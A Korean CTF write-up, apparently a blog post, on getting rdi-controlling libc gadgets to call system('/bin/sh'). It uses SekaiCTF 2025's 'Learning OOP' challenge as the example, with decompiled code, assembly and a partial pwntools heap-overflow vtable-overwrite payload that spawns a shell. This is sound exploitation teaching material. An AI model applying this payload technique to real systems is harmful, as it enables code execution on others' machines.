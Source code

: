 `system`은 호출할 수 있는데 `rdi`를 `&"/bin/sh\x00"`로 변조할 수 없다면 2차전 시작이다. `rdi`를 변조할 수 있는 방법을 온갖 창의적인 생각과 함께 바이너리에서 찾아내야 한다. 이럴 때 보통 `libc base`는 가지고 있을 테니 쓸만한 가젯 몇 개를 정리해보겠다.

```
0x000000000009ca97 : mov rdi, qword ptr [rax + 0x640] ; call qword ptr [rax + 0x638]
0x00000000000984df : mov rdi, qword ptr [rdi + 0x10] ; call qword ptr [rax + 0x380]
0x00000000000af7b5 : mov rdi, qword ptr [rdi + 0x48] ; mov rsi, r12 ; call rax
0x0000000000085fba : mov rdi, qword ptr [rdi + 0xe0] ; call rax
0x0000000000085f7d : mov rdi, qword ptr [rdi + 0xe0] ; jmp rax
0x00000000000a1f47 : mov rdi, qword ptr [rdi + 8] ; call qword ptr [rbx]
```

특히 첫 번째, 두 번째 가젯은 힙에 있는 함수 포인터를 참조하여 실행할 때 쓰기 좋다. 예시로 2025 sekaictf의 Learning OOP라는 문제를 들어보겠다.

---
# Learning OOP

```c
void update(void)
{
  unsigned __int64 v0; // rbx
  unsigned __int64 i; // [rsp+0h] [rbp-20h]
  Animal *v3; // [rsp+8h] [rbp-18h]

  for ( i = 0LL; i <= 9; ++i )
  {
    v3 = (Animal *)pets[i];
    if ( v3 )
    {
      if ( !(unsigned int)Animal::fullness_down(v3)
        || (v0 = (int)Animal::age_up(v3), (*(__int64 (__fastcall **)(Animal *))(*(_QWORD *)v3 + 24LL))(v3) < v0) )
      {
        Animal::die(v3);
        operator delete(v3, 0x118uLL);
        pets[i] = 0LL;
        --num_pets;
      }
    }
  }
}
```

`v3`은 `heap chunk`를 가리키는 주소이다. `v3 chunk`에 `vtable`의 역할을 하는 다른 `chunk`의 주소가 있다. `*v3`에 저장되어 있는 함수 포인터를 참조하여 실행시키는 걸 알 수 있다. 이 문제에는 `heap overflow`가 있기 때문에 `vtable overwrite`는 할 수 있지만 `rdi`가 `v3`이라서 `rdi`에 `&"/bin/sh"`를 저장할 수가 없다. 

```asm
mov     rax, [rbp+var_18]
mov     rax, [rax]
add     rax, 18h
mov     rdx, [rax]
mov     rax, [rbp+var_18]
mov     rdi, rax
call    rdx
```

어셈블리어로 보면 위와 같다. 위의 분석에 따르면 `rdx, rdi, rax` 모두 `heap` 영역을 가리킨다. 따라서 `heap overflow` 취약점을 이용해서 `mov rdi, qword ptr [rdi + 0x10] ; call qword ptr [rax + 0x380]` 가젯의 `offset`을 잘 맞춰서 값을 세팅해주면 `rdi`도 변조하고 `system`도 호출할 수 있다. 아래와 같은 `payload`로 익스를 마무리했다.

```python
# (전략)

ret = l.address + 0x000000000002882f
mov_rdi_qword_ptr_rdi_0x10_call_qword_ptr_rax_0x380 = l.address + 0x00000000000984df
call_qword_ptr_rax_0x18 = l.address + 0x000000000008ac50
binsh = list(l.search(b'/bin/sh'))[0]
payload = p64(ret) * 3 + p64(mov_rdi_qword_ptr_rdi_0x10_call_qword_ptr_rax_0x380)
payload = payload.ljust(0x100, b'\x00') + p32(0) + p32(20) + p32(7) + p32(0) + p64(0x121) + p64(heap_base + 0x13a38)
payload += b'\x00' * 0x8 + p64(binsh) + p64(l.sym['system']) +  b'\x00' * 0xe8 + p32(0) + p32(20) + p32(7) + p32(0) + p64(0x121) + p64(heap_base + 0x13a38)
payload += b'\x00' * 0x100 + p32(0) + p32(20) + p32(7) + p32(0) + p64(0x121) + p64(heap_base + 0x13a38)
payload += b'\x00' * 0x100 + p32(0) + p32(20) + p32(7) + p32(0) + p64(0x121) + p64(heap_base + 0x13a38)
payload += p64(0) * 3 + p64(call_qword_ptr_rax_0x18)
print(hex(l.sym['system']))
#gdb.attach(p, '\n'.join(gdb_cmds2))
create(1, payload)
p.interactive()
```